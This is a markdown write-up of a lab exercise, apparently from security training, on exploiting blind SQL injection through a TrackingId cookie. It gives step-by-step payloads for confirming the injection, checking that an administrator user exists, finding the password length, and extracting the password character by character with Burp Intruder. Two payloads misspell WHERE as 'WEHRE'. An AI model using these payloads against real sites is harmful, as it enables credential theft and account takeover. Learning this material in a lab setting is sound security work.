









# Lab: Blind SQL Injection — Conditional Responses

## Objective
Exploit a blind SQL injection vulnerability to:
- Detect a SQL injection point
- Use conditional responses to extract data
- Determine the administrator password
- Log in as the administrator user

---
## Steps

1. Open the lab website.
2. Inspect the request (using Burp Suite).
3. Locate the `TrackingId` cookie.
4. Inject payloads into the cookie value.

---

---
## Step 1: Confirm SQL Injection Vulnerability

### We test if the application behaves differently based on conditions

### TRUE condition:

' AND 1=1--

### FALSE condition:

' AND 1=2--

---

### Observation:
- TRUE → normal response containt Welcome Back!  massage
- FALSE → same response (no results / error) but  not contains welcome back massage

➡️ This confirms **Blind SQL Injection with conditional responses**

---

## Step 2: Confirm Administrator User Exists

### Payload:
#### ' AND (SELECT 'a' FROM users WHERE username='administrator')='a'--

### Explanation:
- If the user exists → condition is TRUE → normal response
- If not → FALSE → different response

---

## Step 3: Determine Password Length:

### We brute-force the length using conditions

### Payload:

#### a' OR (SELECT 'b' FROM users WEHRE username='administrator' AND LENGTH(password)=num)='b'--

### LENGTH(password) gives u the length of the administrator's password 

#### we can see that the length changed 

---

## Step 4: Extract Password Character by Character

### Use SUBSTRING('hello',2,3) return  ell   where 2 is start index and 3 length 

### Payload:

#### a' OR SUBSTRING((SELECT password FROM users WEHRE username='administrator'),payload1,1)='payload2'--

where payload1: numbers from 1 to 20
payload2: character abcd....z ABCD....Z 1234...9

### USING burpsuite intruder clusterbumb  attack type to use all combinations

---
## Step 5: Login as Administrator

1. Go to login page
2. Enter:
   - Username: `administrator`
   - Password: (extracted password)

✔️ Lab solved

---
## What I Learned

#### How to detect blind SQL injection using conditional responses  
#### How to extract data without direct output  
#### How to use LENGTH and SUBSTR in Oracle  
#### How to automate/bruteforce password extraction  
#### How blind SQL injection can lead to full account compromise

